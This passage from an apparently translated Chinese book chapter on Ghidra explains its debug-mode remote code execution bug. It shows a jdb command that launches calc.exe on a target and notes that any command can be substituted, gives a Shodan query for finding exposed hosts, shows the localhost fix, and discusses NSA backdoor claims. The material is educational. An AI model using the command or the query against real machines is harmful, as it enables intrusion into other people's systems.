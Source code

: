 在这种情况下，您可以执行任何任意命令。我将通过`calc.exe`执行一个计算器，但您可以将其替换为任何命令注入有效负载：

```
AWT-EventQueue-0[1] print new java.lang.Runtime().exec("calc.exe")
```

```
new java.lang.Runtime().exec("calc.exe") = "Process[pid=9268, exitValue="not exited"]"
```

在这个案例中，Windows 计算器程序在被黑客攻击的计算机上执行。我们知道攻击是成功的，因为我们获得了反馈，表明在受害者的机器上创建了一个新进程，进程 ID 为`9268`。

## 修复 Ghidra RCE 漏洞

为了修复漏洞，`DEBUG_ADDRESS`变量被设置为`127.0.0.1:18001`，这样可以将传入的调试连接限制为`localhost`：

```
if "%DEBUG%"=="y" (
```

```
    if "%DEBUG_ADDRESS%"=="" (
```

```
        set DEBUG_ADDRESS=127.0.0.1:18001
```

```
    )
```

手动审查这些行可以让你自己检查给定的 Ghidra 版本是否容易受到此攻击。

## 寻找易受攻击的计算机

Ghidra RCE 漏洞是一个小而极为重要的错误，因为易受攻击的计算机可以通过一种直接的方式被定位；例如，通过查询 Shodan（你需要一个 Shodan 账户并且登录，否则这个链接的结果将无法访问）：[`www.shodan.io/search?query=port:18001`](https://www.shodan.io/search?query=port:18001)。

正如你所知道的，这个漏洞可能并不是**国家安全局**（**NSA**）给程序留下的后门。NSA 有自己的零日漏洞来入侵计算机，肯定不需要为了入侵全球人民的计算机而在自己的程序中插入后门。事实上，这样做对它的声誉来说将是一个非常糟糕的举动。

重要提示

在使用调试模式时，确保你使用的是修补版本的 Ghidra，因为使用易受攻击的 Ghidra 版本存在被黑客攻击的高风险。

# 总结

在本章中，你学习了如何使用 GhidraDev 插件同步 Eclipse 和 Ghidra，以便进行开发和调试。你学到的不仅是调试脚本的技能，还能调试任何 Ghidra 源代码行，使你能够独立探索这个强大的框架的内部机制。

我们还了解了 Ghidra RCE 漏洞的工作原理，如何修补它，如何利用它，以及为什么它可能不是 NSA 的后门。在下一章，我们将介绍用于从源代码自由扩展 Ghidra 的 Ghidra 插件。

# 问题

1.  是否可以使用源代码而非字节码调试已编译的 Ghidra 版本？

1.  是否可以使用除 Eclipse 以外的 IDE 调试 Ghidra？其他 IDE 是否受支持？
